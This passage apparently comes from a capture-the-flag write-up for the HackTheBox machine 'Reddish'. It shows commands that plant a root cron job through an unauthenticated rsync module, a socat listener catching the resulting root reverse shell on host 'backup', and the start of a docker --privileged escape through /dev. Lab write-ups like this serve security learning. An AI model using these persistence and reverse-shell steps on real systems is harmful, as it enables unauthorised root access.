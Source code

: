 
Now write the cron:

    
    
    # echo '* * * * * root sh /tmp/shell.sh' > shell
    # rsync -a shell rsync://backup:873/src/etc/cron.d/
    

Rather than tunnel everything thing back to kali, I’ll just use `socat` to
listen on www in this case. That gets me a callback as root on backup:

    
    
    # /tmp/socat TCP-LISTEN:9010 STDOUT
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # hostname
    backup
    

## reddish Host

### File System Access

backup is rather bare, other than the information I already had. However, one
of the mis-configurations that can come with docker is running with
`--privileged`. There’s some detail on slide 20
[here](https://www.slideshare.net/BorgHan/hacking-docker-the-easy-way). That
flag provides access to the raw devices in `/dev` on the host.

For example, on www, if I look at `/dev`, I see this:

    
    
    # ls /dev
    core
    fd
    full
    mqueue
    null
    ptmx
    pts
    random
    shm
    stderr
    stdin
    stdout
    tty
    urandom
    zero
    